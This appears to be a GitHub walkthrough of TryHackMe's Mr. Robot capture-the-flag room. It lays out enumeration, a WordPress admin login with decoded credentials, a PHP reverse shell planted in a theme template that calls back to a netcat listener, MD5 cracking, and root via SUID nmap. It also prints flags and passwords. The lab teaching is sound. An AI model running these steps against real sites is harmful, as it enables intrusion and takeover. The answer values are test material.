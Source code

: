 # Mr. Robot CTF Walkthrough

## Introduction
This is a walkthrough for the **Mr. Robot CTF** challenge from TryHackMe. In this guide, we will go through the steps to exploit a vulnerable machine and capture all three keys.

![Intro Image](https://raw.githubusercontent.com/Grois333/WordPress-Hacking-Penetration-Testing/refs/heads/master/6.%20Mr%20Robot%20CTF/images/intro-image.webp)

---

## Steps to Complete the Challenge

### 1. Deploy the Machine
- Start the **Mr. Robot** machine on TryHackMe.
- Get the target IP address (e.g., `10.10.134.44`).

### 2. Inspect the Website
- Visit `http://10.10.134.44/`.
- Check the page source code. There is an ASCII-style comment in the HTML.

```html
<!--
\   //~~\ |   |    /\  |~~\|~~  |\  | /~~\~~|~~    /\  |  /~~\ |\  ||~~
 \ /|    ||   |   /__\ |__/|--  | \ ||    | |     /__\ | |    || \ ||--
  |  \__/  \_/   /    \|  \|__  |  \| \__/  |    /    \|__\__/ |  \||__
-->
```
- The site contains references to the **Mr. Robot** TV show, but nothing useful for exploitation.

![Easter Egg Image](https://raw.githubusercontent.com/Grois333/WordPress-Hacking-Penetration-Testing/refs/heads/master/6.%20Mr%20Robot%20CTF/images/eateregg.webp)

### 3. Scan for Open Ports
- Run `nmap` to scan the target:
  ```bash
  nmap 10.10.134.44 -sV -T4 -oA nmap-scan -open
  ```
- Results:
  - **80/tcp open** (Apache httpd web server)

### 4. Enumerate Directories
- Use **gobuster** to find hidden directories:
  ```bash
  gobuster dir -u http://10.10.134.44 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
  ```
- Interesting results:
  - `/blog/`
  - `/wp-login/` (WordPress login page)
  - `/robots.txt` (contains file listings)
  - `/license` (contains a Base64 encoded string)

### 5. Inspect robots.txt
- Visit `http://10.10.134.44/robots.txt`
- Files listed:
  - `fsocity.dic`
  - `key-1-of-3.txt`
- Get the first key: `http://10.10.134.44/key-1-of-3.txt`
  ```bash
  curl http://10.10.134.44/key-1-of-3.txt
  ```
  **First Key:** `073403c8a58a1f80d943455fb30724b9`

### 6. WordPress Login Brute Force
- Get the dictionary file from `fsocity.dic`:
  ```bash
  curl -O http://10.10.134.44/fsocity.dic
  ```

 In this directory http://10.10.134.44/license by inspecting source code we find a base64 string:
   ```ZWxsaW90OkVSMjgtMDY1Mgo=```

 If we go to https://gchq.github.io/CyberChef/ we can decode it from Base64, and we get a pair of credentials that might be useful somewhere

- Check `/license` for credentials:
  ```bash
  curl http://10.10.134.44/license
  ```
- Decode Base64 string `ZWxsaW90OkVSMjgtMDY1Mgo=`:
  ```bash
  echo 'ZWxsaW90OkVSMjgtMDY1Mgo=' | base64 -d
  ```
  - **Username:** `elliot`
  - **Password:** `ER28-0652`
- Login at `http://10.10.134.44/wp-login.php`
 
 Login and Success! Its an admin user.

### 7. Gain a Reverse Shell

And we are in! So now we can try to set up a reverse shell and get our first foothold on the server:
 
Get Revershell code from https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php set it up on the 404.php template or  Twenty Fifteen: Stylesheet (style.css)

- Upload a PHP reverse shell using **404.php** or **style.css**.
  ```php
  $ip = 'YOUR_IP';
  $port = 1234;
  ```
- Start a Netcat listener:
  ```bash
  nc -lnvp 1234
  ```
- Trigger the shell by visiting:
  ```
  http://10.10.134.44/wp-content/themes/twentyfifteen/404.php
  ```
- Shell received! 🎉

### 8. Enumerate the File System
- Navigate to `robot` user’s home directory:
  ```bash
  cd /home/robot
  ls
  ```
- Files found:
  - `key-2-of-3.txt` (permission denied)
  - `password.raw-md5`
- Crack MD5 hash:
  ```bash
  echo 'c3fcd3d76192e4007dfb496cca67e13b' | crackstation
  ```
  - **Password:** `abcdefghijklmnopqrstuvwxyz`

### 9. Get Second Key
- Switch user:
  ```bash
  su robot
  ```
- Password: `abcdefghijklmnopqrstuvwxyz`
- Read the second key:
  ```bash
  cat key-2-of-3.txt
  ```
- **Second Key:** 🎯

### 10. Privilege Escalation to Root
- Check for **SUID binaries**:
  ```bash
  find / -perm -u=s -type f 2>/dev/null
  ```
- Use `nmap` interactive mode exploit:
  ```bash
  nmap --interactive
  !sh
  ```
- Gain root access! 🎉
- Get the final key:
  ```bash
  cat /root/key-3-of-3.txt
  ```

---

## Conclusion
By following these steps, we successfully gained access to the Mr. Robot CTF machine and captured all three flags! 🏆

**References:**
- [TryHackMe - Mr. Robot Room](https://tryhackme.com/room/mrrobot)
- [Pentest Monkey Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell)
- [CyberChef](https://gchq.github.io/CyberChef/)
- [Medium 1](https://medium.com/@cspanias/thms-mr-robot-ctf-walkthrough-2023-55ca5c19fbaf)
- [Medium 2](https://medium.com/azkrath/tryhackme-walkthrough-mr-robot-ctf-9e9eecd2036)
- [YouTube](https://youtu.be/BQ4xeeNAbaw)

Happy hacking! 🕵️‍♂️💻


Badge Obtained:

![Badge Image](https://raw.githubusercontent.com/Grois333/WordPress-Hacking-Penetration-Testing/refs/heads/master/6.%20Mr%20Robot%20CTF/images/mrrobot-badge.png)
